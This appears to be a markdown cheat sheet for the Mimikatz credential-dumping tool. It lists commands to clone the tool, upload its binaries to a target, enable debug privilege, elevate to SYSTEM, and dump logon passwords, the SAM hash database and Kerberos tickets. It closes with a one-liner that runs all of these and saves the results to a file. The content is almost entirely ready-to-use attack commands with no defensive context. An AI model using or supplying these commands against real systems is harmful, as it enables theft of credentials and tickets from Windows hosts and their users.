 ### stand alone version
download
```
git clone https://github.com/ParrotSec/mimikatz.git
```

upload mimikatz files in x64 folder
```
mimikatz.exe, mimilib.dll, mimidrv.sys
```

execute
```
.\mimikatz.exe
```

Enabling SeDebugPrivilege
```
privilege::debug
```

elevating to SYSTEM user privileges
```
token::elevate
```

logonpasswords
```
sekurlsa::logonpasswords
```

dump sam
```
lsadump::sam
```

tickets dump
```
sekurlsa::tickets
```

# one liner
```
.\mimikatz.exe "token::elevate" "privilege::debug" "sekurlsa::logonpasswords" "lsadump::sam" "sekurlsa::tickets" exit > mimikatz_result.txt
```